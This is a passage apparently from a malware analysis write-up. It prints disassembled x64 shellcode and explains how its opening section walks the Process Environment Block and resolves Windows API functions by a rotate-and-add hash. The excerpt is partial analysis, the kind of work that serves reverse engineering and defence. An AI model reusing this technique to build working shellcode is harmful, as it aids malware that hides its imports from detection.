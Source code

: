 ```assembly
                xor     rax, rax
                lodsb
                ror     r9d, 0Dh
                add     r9d, eax
                cmp     al, ah
                jnz     short loc_81
                add     r9, [rsp+8]
                cmp     r9d, r10d
                jnz     short loc_72
                pop     rax
                mov     r8d, [rax+24h]
                add     r8, rdx
                mov     cx, [r8+rcx*2]
                mov     r8d, [rax+1Ch]
                add     r8, rdx
                mov     eax, [r8+rcx*4]
                add     rax, rdx
                pop     r8
                pop     r8
                pop     rsi
                pop     rcx
                pop     rdx
                pop     r8
                pop     r9
                pop     r10
                sub     rsp, 20h
                push    r10
                jmp     rax

; ... (continuing with rest of shellcode)
```

#### Dynamic API Resolution

The initial section of the shellcode implements a **dynamic API resolution** mechanism. After the `call sub_D6` instruction, which places the return address (0xA) into `rbp`, the code beginning at offset 0xA performs the following operations:

```assembly
push    r9
push    r8  
push    rdx
push    rcx
push    rsi
xor     rdx, rdx
mov     rdx, gs:[rdx+60h]    ; Access Process Environment Block (PEB)
mov     rdx, [rdx+18h]       ; Access LoaderData  
mov     rdx, [rdx+20h]       ; Access InMemoryOrderModuleList
```

This code walks through the **Process Environment Block (PEB)** to enumerate loaded DLLs, then implements a custom hashing algorithm to resolve API functions by hash rather than by name. More details on this routine in the appendix.
